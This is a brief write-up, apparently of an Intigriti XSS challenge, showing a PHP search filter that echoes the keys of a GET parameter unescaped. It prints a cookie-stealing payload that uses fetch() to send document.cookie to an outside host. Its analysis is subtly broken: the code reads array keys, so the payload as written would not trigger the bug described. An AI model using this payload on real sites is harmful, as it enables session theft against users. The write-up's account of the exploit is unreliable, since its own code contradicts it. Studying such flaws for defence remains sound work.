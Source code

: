 # XSS - Case Study #3 (Feb 23-28, 2025)

## Overview
Tweet URL: https://x.com/intigriti/status/1893240582044066130

## Code Analysis
In this writeup, I'll analyze an XSS vulnerability discovered in the filtering mechanism of a search feature.

```php
<?php
$product_filter = $_GET['filter']; // Get the filter parameter from the URL
$products = array(); // Array of products

?>

<!-- Display the filtered products -->
<h2>Filter products</h2>
<?php
    if (isset($product_filter)) {
        echo "<p>You're currently filtering by \"" . implode('", "', array_keys($product_filter)) . "\"</p>";
    }
?>
```
Here is the vulnerability. The `product_filter` parameter is directly used in the `implode` function without proper validation or sanitization.

## Impact
An attacker can craft a malicious URL with a payload that includes JavaScript code, which will be executed in the context of the website. For example, a payload like `?filter=<img src=x onerror=fetch('https://vuln.me/?cookie='+document.cookie)>` would trigger an XSS attack when the page is loaded.

## Solving the Issue
To prevent XSS attacks, it is important to properly sanitize and validate user input before using it in dynamic content. In this case, the `product_filter` parameter should be sanitized and validated before being used in the `implode` function.


